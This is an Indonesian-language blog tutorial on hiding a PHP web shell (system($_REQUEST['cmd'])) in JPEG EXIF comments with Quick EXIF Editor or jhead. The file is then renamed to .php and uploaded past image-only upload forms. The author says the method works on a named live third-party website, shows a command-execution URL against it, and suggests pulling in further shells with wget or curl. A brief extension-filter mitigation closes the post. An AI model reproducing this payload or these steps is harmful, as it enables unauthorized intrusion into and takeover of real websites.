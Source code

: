 ```yaml
---
title: 'Trik Inject PHP Script ke File Gambar (Jpg, Png, etc)'
date: 2016-10-11T01:59:00.000-07:00
draft: false
aliases: [ "/2016/10/trik-inject-php-script-ke-file-gambar.html" ]
tags : [Knowledge]
---
```


[![](https://3.bp.blogspot.com/-ZywvCZwwQDc/V_yOjihS4SI/AAAAAAAABKU/iuLqTOemzpAEPRtEj2wI0MJREHgR4bojwCLcB/s400/logoinject.png)](https://3.bp.blogspot.com/-ZywvCZwwQDc/V_yOjihS4SI/AAAAAAAABKU/iuLqTOemzpAEPRtEj2wI0MJREHgR4bojwCLcB/s1600/logoinject.png)

**\[UPDATED 15.10.2016 19:16:55\]**  
  
Holaa sobat setia yuzanotes dimanapun berada,  
gmna kabarnya hari ini, semoga sehat selalu ya.  
Seperti pada judul kali ini gw mo mbahas trik lama, namun msih belum banyak yang tau.  
  
Oke langsung saja ke pokok permasalahan.  
Pernah nggak sih agan ketemu dengan form file upload, tapi hanya memperbolehkan file image only? pasti pernah kan, kebanyakan orang mungkin make teknik tamper data atau bisa juga make live http header, tapi cara ini tidak 100% work.  
  
Nah pada tutor kali ini gw mw share cara manipulasi backdoor ke file jpg,  
ya walaupun dengan cara ini tidak mnjamin 100% backdoor akan terupload juga :'v , setidaknya nambah wawasan agan-sista pembaca dsini, mengenai method upload shell backdoor ^\_^  
  
**PERSIAPAN :**  
**1**. Target  
**2**. Niat  
  
Windows :  
\- Quick EXIF Editor ( [download disini](http://adf.ly/1eqbCm) ; pass: yuzan0tes )  
\- Exif Pilot  
**NOTE** :  pada tutorial ini gw make Quick EXIF Editor  
  
Linux :  
\- Exif (apt-get install exif)  
\- Exiv2 (apt-get install exiv2)  
\- Jhead (apt-get install jhead)  
**NOTE** : install salah satu saja, pada tutorial kali ini gw make jhead (jpg only)  
  
Code PHP Inject  

Plain Text

> <style>body{font-size: 0;}h1{font-size: 12px}</style><h1>  
> <?php if(isset($\_REQUEST\['cmd'\])){system($\_REQUEST\['cmd'\]);}else{echo 'HELLO WORLD  
> ';}\_\_halt\_compiler();?></h1>

With Image

> <style>body{font-size: 0;}h1{font-size: 12px}</style><h1>  
> <?php if(isset($\_REQUEST\['cmd'\])){system($\_REQUEST\['cmd'\]);}else{echo '<img src="LINK GAMBAR" border=0>  
> ';}\_\_halt\_compiler();?></h1>

  
**LANGKAH-LANGKAH MANIPULASI :**  
  

WINDOWS

**1**. Download toolnya dulu (diatas)  

_Penampakan tool_

[![](https://4.bp.blogspot.com/-GCP-KfrsZWI/WAGZvoBrQQI/AAAAAAAABMo/MI9T9OxPbDAfK8ds8UNDFEj50rJuhKtBACEw/s320/Screenshot_1.png)](https://4.bp.blogspot.com/-GCP-KfrsZWI/WAGZvoBrQQI/AAAAAAAABMo/MI9T9OxPbDAfK8ds8UNDFEj50rJuhKtBACEw/s1600/Screenshot_1.png)

**2**. Siapin gambar yang mau di inject  
**3**. Buka toolnya, klik "Open" lalu pilih gambarnya  
**4**. Klik tanda +  

[![](https://3.bp.blogspot.com/-OUxdPyhL76U/WAGZy1cxmuI/AAAAAAAABNE/_JNl4EuDxJQTmlTBi2YNkLlZVqUrtbZGQCEw/s640/Screenshot_3.png)](https://3.bp.blogspot.com/-OUxdPyhL76U/WAGZy1cxmuI/AAAAAAAABNE/_JNl4EuDxJQTmlTBi2YNkLlZVqUrtbZGQCEw/s1600/Screenshot_3.png)

  

_Klik "Yes" sadjha :'''v_

[![](https://3.bp.blogspot.com/---FmeoqmRyE/WAGZxMJK5bI/AAAAAAAABM4/7HcXwLsmGDUsXOW8h7ir2xsk_2LUPyPywCEw/s640/Screenshot_2.png)](https://3.bp.blogspot.com/---FmeoqmRyE/WAGZxMJK5bI/AAAAAAAABM4/7HcXwLsmGDUsXOW8h7ir2xsk_2LUPyPywCEw/s1600/Screenshot_2.png)

**5**. Ubah Type dan Value, Samakan seperti ini, Value isi bebas terserah. Kalo udah klik Add  

[![](https://2.bp.blogspot.com/-FiDZZiL-8Dk/WAGZzSiGkQI/AAAAAAAABNI/mwf27OwOKpIpzDPwT2hxXl7OZ6jpXcDZQCEw/s640/Screenshot_4.png)](https://2.bp.blogspot.com/-FiDZZiL-8Dk/WAGZzSiGkQI/AAAAAAAABNI/mwf27OwOKpIpzDPwT2hxXl7OZ6jpXcDZQCEw/s1600/Screenshot_4.png)

**6**. Klik pada pending change, lihat gambar dibawah  

[![](https://4.bp.blogspot.com/-BqZXQgcJpgE/WAGZzjBrJEI/AAAAAAAABNM/CqUCHv4lUKM_3dXdNAhDYakKKQKQPfsTwCEw/s640/Screenshot_5.png)](https://4.bp.blogspot.com/-BqZXQgcJpgE/WAGZzjBrJEI/AAAAAAAABNM/CqUCHv4lUKM_3dXdNAhDYakKKQKQPfsTwCEw/s1600/Screenshot_5.png)

**7**. Klik di "New value" terus "Edit Modification"  

[![](https://3.bp.blogspot.com/-6KgA4ECrsAA/WAGZzr8Bx3I/AAAAAAAABNQ/77YY6A5zXnQ_hUpB36O3DHL-Epttm6B8wCEw/s640/Screenshot_6.png)](https://3.bp.blogspot.com/-6KgA4ECrsAA/WAGZzr8Bx3I/AAAAAAAABNQ/77YY6A5zXnQ_hUpB36O3DHL-Epttm6B8wCEw/s1600/Screenshot_6.png)

**8**. Nah sampe sini, tinggal ganti New value dengan Code PHP Inject, dan konfigurasi dikit, lihat gambar di bawah  

[![](https://2.bp.blogspot.com/-Jya_lf8e5so/WAGZ0Nz-xLI/AAAAAAAABNU/WhSzqxUAVXYc8_hs9nvuhya77PIJLkQzQCEw/s640/Screenshot_7.png)](https://2.bp.blogspot.com/-Jya_lf8e5so/WAGZ0Nz-xLI/AAAAAAAABNU/WhSzqxUAVXYc8_hs9nvuhya77PIJLkQzQCEw/s1600/Screenshot_7.png)

[![](https://3.bp.blogspot.com/-Vcs7hWZEUTM/WAGZ0ADPZHI/AAAAAAAABNY/kDgsJCCmWV0NQV7qs9k1brDrcpNpWYbswCEw/s640/Screenshot_8.png)](https://3.bp.blogspot.com/-Vcs7hWZEUTM/WAGZ0ADPZHI/AAAAAAAABNY/kDgsJCCmWV0NQV7qs9k1brDrcpNpWYbswCEw/s1600/Screenshot_8.png)

[![](https://4.bp.blogspot.com/-hX2c5m6chxQ/WAGZvu6x0RI/AAAAAAAABMk/SMNZ538w_yUMQQxfCqVBjYGPjywzsmKUwCEw/s640/Screenshot_10.png)](https://4.bp.blogspot.com/-hX2c5m6chxQ/WAGZvu6x0RI/AAAAAAAABMk/SMNZ538w_yUMQQxfCqVBjYGPjywzsmKUwCEw/s1600/Screenshot_10.png)

[![](https://1.bp.blogspot.com/-JA8lF2FK3ww/WAGZvkcqfmI/AAAAAAAABMg/yeEnRdtJJvMWUMrSfyeDZy1QNyugYURyQCEw/s640/Screenshot_12.png)](https://1.bp.blogspot.com/-JA8lF2FK3ww/WAGZvkcqfmI/AAAAAAAABMg/yeEnRdtJJvMWUMrSfyeDZy1QNyugYURyQCEw/s1600/Screenshot_12.png)

[![](https://3.bp.blogspot.com/-2vDTfXh6HlQ/WAGZwfPN_LI/AAAAAAAABMs/Mb1hKpY6LEw-i2EJsEqpaCS49SYxmmrvQCEw/s640/Screenshot_13.png)](https://3.bp.blogspot.com/-2vDTfXh6HlQ/WAGZwfPN_LI/AAAAAAAABMs/Mb1hKpY6LEw-i2EJsEqpaCS49SYxmmrvQCEw/s1600/Screenshot_13.png)

  
**Cara cek code php inject sudah masuk atau belum**  
**1**. Open with text editor, gw make notepad++  

[![](https://3.bp.blogspot.com/-HXm4o6XCfmU/WAGZwWeX9II/AAAAAAAABMw/Pyw04FqYAfIgcYsDtN4OGqf0UpjTMxuPQCEw/s640/Screenshot_14.png)](https://3.bp.blogspot.com/-HXm4o6XCfmU/WAGZwWeX9II/AAAAAAAABMw/Pyw04FqYAfIgcYsDtN4OGqf0UpjTMxuPQCEw/s1600/Screenshot_14.png)

** 2**. Nah kalo udah kek gini brarti sudah ke inject ^\_^

[![](https://1.bp.blogspot.com/-ZqYBDx66x08/WAGZw9bwLmI/AAAAAAAABM0/X6YjybZmmD8KOJFzNzv5P9I859VmtnZbwCEw/s640/Screenshot_19.png)](https://1.bp.blogspot.com/-ZqYBDx66x08/WAGZw9bwLmI/AAAAAAAABM0/X6YjybZmmD8KOJFzNzv5P9I859VmtnZbwCEw/s1600/Screenshot_19.png)

  
**Tes di localhost**  
**1**. Nah bisaa kan :'''v  

[![](https://3.bp.blogspot.com/-9JYeUtyGVl4/WAGZyo9aQOI/AAAAAAAABM8/GHMxEpp9IkUyMtLKHEDHFsMi5GuZdY2fACEw/s640/Screenshot_20.png)](https://3.bp.blogspot.com/-9JYeUtyGVl4/WAGZyo9aQOI/AAAAAAAABM8/GHMxEpp9IkUyMtLKHEDHFsMi5GuZdY2fACEw/s1600/Screenshot_20.png)

**2**. Ini gw make IIS7, gini penampakannya  

[![](https://1.bp.blogspot.com/-xh9GFCrSlnw/WAGZy8p7urI/AAAAAAAABNA/HuiNpBCTvKAdegrsjnwPZlVHDbH_oYtGgCEw/s640/Screenshot_21.png)](https://1.bp.blogspot.com/-xh9GFCrSlnw/WAGZy8p7urI/AAAAAAAABNA/HuiNpBCTvKAdegrsjnwPZlVHDbH_oYtGgCEw/s1600/Screenshot_21.png)

  
  

LINUX

**1**. jhead -h = bwat lihat command dasarnya  
**2**. Siapkan gambarnya (.jpg) \*cari di gugel njing :'''v  

[![](https://2.bp.blogspot.com/-ZKztBsA12gg/V_yUbY2ZhSI/AAAAAAAABKo/nQx3l1GDo44St6lX8Hvkib8JSXunivSswCLcB/s400/mia.jpg)](https://2.bp.blogspot.com/-ZKztBsA12gg/V_yUbY2ZhSI/AAAAAAAABKo/nQx3l1GDo44St6lX8Hvkib8JSXunivSswCLcB/s1600/mia.jpg)

**3**. lakukan command ini: jhead -purejpg filemu.jpg  . fungsinya untuk menghapus comment, info, tag bawaan gambar  
**4**. Sekarang kita sisipkan file php dengan command: jhead -ce filemu.jpg  
Seteleh itu akan muncul default text editor VI  
Masukkan salah satu Code PHP Inject yg sudah gw sediain di atas  
**Screenshot**:  

[![](https://2.bp.blogspot.com/--pRyguA_3KI/V_yZ3oZ039I/AAAAAAAABK8/bl2xCv7SD4cBz6Q8v_2YgamUQgUK3GW-wCEw/s640/Selection_004.jpg)](https://2.bp.blogspot.com/--pRyguA_3KI/V_yZ3oZ039I/AAAAAAAABK8/bl2xCv7SD4cBz6Q8v_2YgamUQgUK3GW-wCEw/s1600/Selection_004.jpg)

  

Setelah itu save. Jika sukses, muncul "_Modified: filemu.jpg_"

[![](https://4.bp.blogspot.com/-IjZLAEW1_uc/V_yZ2mKsDvI/AAAAAAAABK4/0Qx-zCOvwtU5d6ohg3ZWdJawlWyI6r9dQCLcB/s640/Selection_005.jpg)](https://4.bp.blogspot.com/-IjZLAEW1_uc/V_yZ2mKsDvI/AAAAAAAABK4/0Qx-zCOvwtU5d6ohg3ZWdJawlWyI6r9dQCLcB/s1600/Selection_005.jpg)

**5**. Cek script, sudah masuk atau belum, dengan command: jhead filemu.jpg  

_Klo result begini berarti sukses_

[![](https://4.bp.blogspot.com/-0ZoKH3pwTjM/V_ybGzPqAaI/AAAAAAAABLE/5dI7DqaluMgrNkalEWdlWf2rw2PihUY3gCLcB/s640/Selection_006.jpg)](https://4.bp.blogspot.com/-0ZoKH3pwTjM/V_ybGzPqAaI/AAAAAAAABLE/5dI7DqaluMgrNkalEWdlWf2rw2PihUY3gCLcB/s1600/Selection_006.jpg)

**6**. Selanjutnya rename filenya ke .php , lalu upload ke Tergetmu  
_\*_Ingat cara ini tidak 100% bisa  
  
  
**EKSEKUSI TARGET :**  
**1**. Gw dah punya live target,  
**Screenshot:**  

[![](https://1.bp.blogspot.com/-kVUkxHy9hbs/V_ydMWeKtDI/AAAAAAAABLQ/P-TSuPpufeg6iN6BG5xkWjUq-NjDNZGVgCLcB/s640/Selection_001.jpg)](https://1.bp.blogspot.com/-kVUkxHy9hbs/V_ydMWeKtDI/AAAAAAAABLQ/P-TSuPpufeg6iN6BG5xkWjUq-NjDNZGVgCLcB/s1600/Selection_001.jpg)

**2**. Oke, kita coba test dulu dengan file php uploader biasa  
**Screenshot:**  

[![](https://3.bp.blogspot.com/-Av6cB0nq7Jw/V_ydObcM2OI/AAAAAAAABLU/ePu2EPPoqksNv7UWRxsvxdVl81SuA3JAACLcB/s640/Selection_002.jpg)](https://3.bp.blogspot.com/-Av6cB0nq7Jw/V_ydObcM2OI/AAAAAAAABLU/ePu2EPPoqksNv7UWRxsvxdVl81SuA3JAACLcB/s1600/Selection_002.jpg)

**3**. Daaaann, gagal --\_\_--  
**Screenshot:**  

[![](https://1.bp.blogspot.com/-59VG2Dsr8N8/V_ydOmsB-KI/AAAAAAAABLY/9T-Q9DeLF2QPQrlP0gGwMujNmhJQ46jzgCLcB/s640/Selection_003.jpg)](https://1.bp.blogspot.com/-59VG2Dsr8N8/V_ydOmsB-KI/AAAAAAAABLY/9T-Q9DeLF2QPQrlP0gGwMujNmhJQ46jzgCLcB/s1600/Selection_003.jpg)

**4**. Sekarang waktunya beraksi, siapkan file .php yang tadi sudah di inject tadi, lalu upload, daaan  
crooots.. file uploaded yeah :''v  
**Screenshot:**  

[![](https://2.bp.blogspot.com/-NzX9WRRhMVE/V_yfLdQJ2SI/AAAAAAAABLk/uykjasMHFSE5sqEmAX_1q-v3xsQEpUNiQCLcB/s640/Selection_007.jpg)](https://2.bp.blogspot.com/-NzX9WRRhMVE/V_yfLdQJ2SI/AAAAAAAABLk/uykjasMHFSE5sqEmAX_1q-v3xsQEpUNiQCLcB/s1600/Selection_007.jpg)

**5**. Buka filenya, dan jangan kaget kalo yang muncul gambar doang \*btw ini namanya Mia Khalifa :'''v  
**Screenshot:**  

[![](https://3.bp.blogspot.com/-UsbB3u_hGWc/V_yglrT0mFI/AAAAAAAABLw/xgqdU-bjfVkpYHL1A8POAc6WvP39hdRbwCLcB/s640/Selection_008.jpg)](https://3.bp.blogspot.com/-UsbB3u_hGWc/V_yglrT0mFI/AAAAAAAABLw/xgqdU-bjfVkpYHL1A8POAc6WvP39hdRbwCLcB/s1600/Selection_008.jpg)

**Cara Penggunaan** **:**  
**1**. Cara melihat isi direktori supaya bisa tersusun rapi, seperti ini:  
view-source:http://www.wtinntal.at/import/mia.php?cmd=ls -la  

[![](https://1.bp.blogspot.com/-eJL9Zxw0mJY/V_yhskwc6vI/AAAAAAAABL4/yK-YJ641Q-M3IjC2xqmSfpocl2tD2W0TACLcB/s640/Selection_009.jpg)](https://1.bp.blogspot.com/-eJL9Zxw0mJY/V_yhskwc6vI/AAAAAAAABL4/yK-YJ641Q-M3IjC2xqmSfpocl2tD2W0TACLcB/s1600/Selection_009.jpg)

**2**. Upload shell, gunakan fungsi wget, curl, atau cara lain (karena tdak smua web support wget)  

[Lihat pada tutorial ini](http://blog.yuzaside.com/2016/08/trik-menyisipkan-hidden-backdoor.html)

  
**3**. Setelah itu terserah mau diapain itu web :)  

[![](https://3.bp.blogspot.com/-6WyheoJ1WW8/V_yoPVdHpxI/AAAAAAAABMI/YmFRxWiP84kie7RVpUFrPqEvKKhIpgzXgCLcB/s640/Selection_011.jpg)](https://3.bp.blogspot.com/-6WyheoJ1WW8/V_yoPVdHpxI/AAAAAAAABMI/YmFRxWiP84kie7RVpUFrPqEvKKhIpgzXgCLcB/s1600/Selection_011.jpg)

  
**CATATAN :**  
Gunakan command sesuai os server yg di pakai webnya, kalo linux make command linux kalo windows ya windows :'''v  
intinya hanya perlu menjalankan command: SITE.COM/filemu.php?cmd=PERINTAH  
?cmd= > Harus diawali dengan ini  
PERINTAH \> Sesuaikan dengan os yg dipakai server, pelajari command" dasarnya juga \*Cari referensi di google  
  

Bagi yang pengen langsung jadi / gak mau repot, ini file jpg yang sudah di inject php script bisa di download [disini](http://adf.ly/1ekf0e)

  

Cara Menghindari Trik ini Untuk Web Developer

Inti dari trik ini adalah memanipulasi file php menjadi jpg (image/gambar)  
jika agan developer salah satu web, agan hanya perlu menambahkan filter exstensi saja,  
jadi, kurang lebih seperti ini :  
\*sesuaikan dengan keperluan di web agan, d bwah ini hanya .jpg, .jpeg, .png & .gif  

> \[// Code Filter extensi by m1x  
> if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg"  
> && $imageFileType != "gif" ) {  
>     echo "Maaf bosq, hanya .jpg, .jpeg, .png & .gif files saja yang diperbolehkan.";  
>     $uploadOk = 0;  
> }\]

  
Sampe sini dulu tutor hari ini,  
Semoga Bermanfaat ^\_^